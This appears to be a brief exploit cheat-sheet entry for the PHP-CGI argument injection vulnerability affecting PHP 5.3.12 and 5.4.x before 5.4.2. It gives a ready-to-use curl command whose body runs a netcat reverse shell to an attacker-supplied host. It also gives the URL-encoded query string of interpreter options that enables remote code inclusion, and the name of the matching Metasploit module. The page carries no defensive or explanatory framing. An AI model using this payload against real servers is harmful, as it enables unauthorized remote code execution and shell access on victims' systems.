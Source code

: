 ## Versions affected
	5.3.12 and 5.4.x < 5.4.2 

## Exploit
5.3.12 and 5.4.x < 5.4.2 PHP-CGI or PHP5-CGI

	curl -i -s -k -X 'POST' --data-binary "<?php system(\"nc [attacker ip] [port] -e /bin/sh\"); die; ?> "http://[victim ip]/cgi-bin/php5?-d+allow_url_include=on+-d+safe_mode=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-n"

The following should be url encoded.

	"http://[victim ip]/cgi-bin/php5?-d+allow_url_include=on+-d+safe_mode=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-n"

## Meterpreter
	search php_cgi_args_injection